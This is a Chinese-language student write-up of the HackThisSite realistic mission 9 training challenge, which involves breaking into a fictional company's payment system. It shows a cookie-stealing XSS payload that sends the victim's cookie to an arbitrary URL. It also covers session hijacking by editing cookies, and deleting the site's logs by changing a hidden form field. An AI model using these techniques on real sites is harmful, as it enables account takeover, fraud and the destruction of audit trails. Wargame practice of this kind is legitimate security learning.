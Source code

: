 網路安全第五次報告!
===
### Secret Sharing
#### 第2組 1051433 葛東昇

## 問題

From:

Message: Hey man,
I've heard you're good at hacking, and on the right side of things. So I came looking for you. I really need help, you see, my boss has stopped paying our salaries and I'm going to miss my rent! Please help me get my money, you can reach the site at Crappy Soft. They have an online payment system, but only he can use it. Maybe you can get into his account somehow, but for now you can use mine:

Username: r-conner@crappysoft.com
Password: ilovemywork

Thanks man, good luck.

## 問題-中文簡述

有人在找一個駭客，希望那個駭客能夠駭進公司的網站把薪水付給他，第一次進去公司的網站可以用他的帳號登進去。

## 解題流程
### Step 1
- 先點進題目中所提到的[website](http://www.hackthissite.org/missions/realistic/9/)，可以看到首頁。

![](https://imgur.com/jgMHHx5.png)

### Step 2
- 登入，完成後會進來這邊

![](https://imgur.com/NMgkH8l.png)

- 點選左邊的Pay Salaries之後發現沒有權限

![](https://imgur.com/aL4QT9o.png)


### Step 3
- 點選左邊的Private Message，並且使用XSS Attack手法取得老闆的cookie。
code : javascript:void(window.location=隨便一個網址+document.cookie)
![](https://imgur.com/suDHOEq.png)
![](https://imgur.com/ThwNXbS.png)

### Step 4
- 利用chrome外掛擴充功能，去更改網站的cookie內容，然後就發現能付薪水了。
點擊Pay之後，會發現一段提示文字告訴你要清除紀錄

![](https://imgur.com/DLV2nYy.png)
![](https://imgur.com/K9SOFHH.png)
![](https://imgur.com/1ukOFTP.png)

### Step 5
- 開始找尋log存放的路徑，發現如果點擊左邊的Demo會有一個可以點擊下載東西的路徑，
網址是[website](https://www.hackthissite.org/missions/realistic/9/files/downloads/CrappyDemo.exe.zip)
![](https://imgur.com/zbgFXcV.png)
- 砍掉後面的檔名會發現進到一個地方，並開始找尋log找到的地方，最後找到log存放的地方
網址是[website](https://www.hackthissite.org/missions/realistic/9/files/logs/logs.txt)
![](https://imgur.com/2avKq6x.png)
![](https://imgur.com/cL9rRm1.png)
![](https://imgur.com/HJon1vu.png)
![](https://imgur.com/uSPTn2Y.png)

### Step 6
- 再來是要解決如何清除log.txt裡面的內容，發現點擊左邊功能表的Mailing List，有一段關鍵的話，(Note: This adds your email to the list, and at the same time, checks the list for anything without the '@' character and deletes it.)
也就是說只要把不含@的文字送過去也可以把log清除掉
![](https://imgur.com/ALLFopK.png)

- 那段程式碼如下：
```Html
<div id="body">
 Here you can subscribe to our software newsletter.<br />
      The newest update's and changelog's will automaticly be mailed to you!<br />
      <br />
      <br />
      Enter your email address here:<br />

      (Note: This adds your email to the list, and at the same time, checks the list for anything without the '@' character and deletes it.)<br />
      <br />
      <form action="subscribemailing.php" method="post">
       <input type="hidden" name="strFilename" value="./files/mailinglist/addresses.txt">
       <input type="text" name="strEmailAddress" value="you@somedomain.com">
       <br />
       <input type="submit" value="Subscribe!">
      </form></div>
<div id="footer">&nbsp;</div>
</div>
```

- 將 input type="hidden" name="strFilename" value="./files/mailinglist/addresses.txt"裡的value改成./files/logs/logs.txt

- 並將input type="text" name="strEmailAddress" value="you@somedomain.com
的value改成一個沒有@的文字

- 最後在隨便亂打一個值並subsribe出去

![](https://imgur.com/M9LJwQb.png)



### 成功

![](https://imgur.com/Ly36nF3.png)

        


